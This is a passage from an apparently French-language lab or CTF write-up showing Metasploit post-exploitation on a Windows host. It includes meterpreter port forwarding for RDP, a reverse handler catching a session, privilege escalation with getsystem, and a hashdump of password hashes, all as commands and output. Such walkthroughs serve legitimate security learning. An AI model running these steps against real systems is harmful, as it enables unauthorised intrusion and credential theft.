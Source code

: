 ```plain
meterpreter > portfwd add -l 3389 -p 3389 -r 127.0.0.1
[*] Local TCP relay created: 0.0.0.0:3389 <:-> 127.0.0.1:3389
```

On peut maintenant se connecter via *TSE* avec les même identifiants que pour le FTP (sous *openSUSE* il y a un client tout ce qu'il y a d'épuré).  

![Configuration du client RDP](https://raw.githubusercontent.com/devl00p/blog/master/images/rdp.png)

Sous *Metasploit*, on relance le handler et depuis la session *Windows* on lance *rbd.exe*.  

```plain
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 3 opened (192.168.1.3:9999 -> 192.168.1.11:1094) at 2014-03-26 19:29:40 +0100

meterpreter > getuid
Server username: BOBBY\bob
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY f7c6aa7200e401d1b8667e066d1822e0...
[*] Obtaining the user list and keys...
[*] Handle is invalid, retrying...
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY f7c6aa7200e401d1b8667e066d1822e0...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

```